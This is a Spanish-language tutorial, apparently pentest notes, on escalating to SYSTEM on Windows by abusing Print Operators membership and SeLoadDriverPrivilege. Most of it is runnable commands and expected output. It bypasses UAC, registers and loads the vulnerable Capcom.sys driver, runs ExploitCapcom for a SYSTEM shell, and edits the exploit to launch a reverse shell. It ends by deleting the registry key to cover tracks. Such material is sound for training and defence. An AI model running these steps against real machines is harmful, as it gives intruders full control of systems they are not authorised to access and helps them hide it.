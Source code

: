 # 🔐 Windows Privilege Escalation - Print Operators

## 🧑‍💻 ¿Qué es el grupo Print Operators?

**Print Operators** es un grupo privilegiado en sistemas Windows, especialmente en entornos de dominio. Sus miembros tienen acceso a operaciones críticas como:

- Administrar, crear, compartir y eliminar impresoras conectadas a un **Controlador de Dominio (DC)**
- Iniciar sesión localmente en un DC
- Apagar el sistema
- Poseen el privilegio **SeLoadDriverPrivilege**, que permite **cargar o descargar controladores (drivers) en el kernel**

Este último privilegio puede ser explotado para lograr una **escalada de privilegios a SYSTEM**, si conseguimos cargar un driver malicioso o vulnerable.

---

## 🔎 Verificación de privilegios

Comando:

```cmd
whoami /priv
```

En una sesión **no elevada**, probablemente no verás `SeLoadDriverPrivilege` en la lista. Esto se debe a que necesitas una **sesión elevada** (con token completo) para que aparezca.

---

## 🔓 Elevación mediante bypass de UAC

Si no tienes acceso a una GUI para ejecutar un proceso como administrador, puedes utilizar una herramienta como **UACMe**, que permite evadir el control de cuentas de usuario (UAC) desde la línea de comandos.

📦 [UACMe en GitHub](https://github.com/hfiref0x/UACME)

Esto te permitirá lanzar procesos elevados sin necesidad de interacción del usuario, obteniendo así un token completo con acceso a `SeLoadDriverPrivilege`.

---

## ⚙️ Preparar el entorno: Referencia al driver

Descarga el driver vulnerable `Capcom.sys` y colócalo, por ejemplo, en `C:\Tools\Capcom.sys`.

A continuación, creamos dos entradas de registro bajo `HKEY_CURRENT_USER` para registrar el driver con el sistema.

```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

✅ Esto emula la forma en que los drivers se registran normalmente en `HKLM\SYSTEM\CurrentControlSet\Services`, pero en este caso lo hacemos en HKCU para no requerir privilegios de administrador.

📌 El prefijo especial `\??\` representa una **NT Object Path**. El API de Win32 lo traducirá internamente al path real (`C:\Tools\Capcom.sys`) al cargar el driver.

---

## 📄 Verificar que el driver no está cargado

Utiliza **DriverView** de NirSoft para listar todos los controladores cargados actualmente en el sistema.

📦 [DriverView – NirSoft](https://www.nirsoft.net/utils/driverview.html)

```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -Pattern Capcom
```

---

## 🛠️ Compilar y ejecutar EnableSeLoadDriverPrivilege

Este programa habilita el privilegio `SeLoadDriverPrivilege` en el token del proceso y ejecuta la función `NtLoadDriver()` para cargar el driver referenciado en el registro.

### 📥 Código fuente

📄 [EnableSeLoadDriverPrivilege.cpp (GitHub)](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp)

Añade las importaciones arriba del todo del script: 
````c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
````

### ⚙️ Compilación

Abre un símbolo del sistema de **Visual Studio 2019 Developer Command Prompt** y ejecuta:

```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

Esto generará `EnableSeLoadDriverPrivilege.exe`.

### ▶️ Ejecución

```cmd
EnableSeLoadDriverPrivilege.exe
```

✅ Si todo va bien, verás el privilegio `SeLoadDriverPrivilege` como **Enabled** y una llamada exitosa a `NtLoadDriver`.

Ejemplo de salida esperada:

```
whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeLoadDriverPrivilege        Enabled
...
NTSTATUS: 00000000, WinError: 0
```

---

## ✅ Verificar que el driver ha sido cargado

Repite el escaneo con DriverView para asegurarte de que `Capcom.sys` está cargado:

```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -Pattern Capcom
```

---

## 💣 Ejecutar exploit con Capcom.sys

Ahora que el driver está cargado, podemos explotarlo para ejecutar código con privilegios SYSTEM. Podemos usar la herramienta de ExploitCapcom después de compilarla con VisualStudio.

📦 [ExploitCapcom en GitHub](https://github.com/tandasat/ExploitCapcom)

```cmd
ExploitCapcom.exe
```

Salida esperada:

```
[*] Capcom.sys exploit
[*] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

✅ Tendrás una shell como **NT AUTHORITY\SYSTEM**

---

## 🧱 Alternativa sin GUI: Reverse Shell

Si no tienes acceso a un entorno gráfico o prefieres obtener una shell remota, edita `ExploitCapcom.cpp` y reemplaza la línea 292:

```cpp
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```

por:

```cpp
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

Compila el binario y escucha con netcat (o similar) desde tu máquina atacante. También puedes usar un bind shell o payload que agregue un usuario.

---

## 🤖 Automatización con EoPLoadDriver

Podemos usar una herramienta como **EoPLoadDriver** para automatizar el proceso completo:

- Habilita el privilegio
- Crea la clave de registro
- Ejecuta `NtLoadDriver`

📦 [EoPLoadDriver en GitHub](https://github.com/TarlogicSecurity/EoPLoadDriver/)

```cmd
EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\Tools\Capcom.sys
```

Salida esperada:

```
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-...-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

Después, ejecuta `ExploitCapcom.exe` como antes.

---

## 🧹 Limpieza

Para cubrir rastros, elimina la clave de registro que creaste:

```cmd
reg delete HKCU\System\CurrentControlSet\CAPCOM
```

Confirma con **Yes** cuando se te pregunte.

---

## ⚠️ Limitaciones

A partir de **Windows 10 versión 1803**, **ya no es posible cargar drivers desde HKEY_CURRENT_USER**, lo cual **invalida esta técnica en versiones modernas**.

---
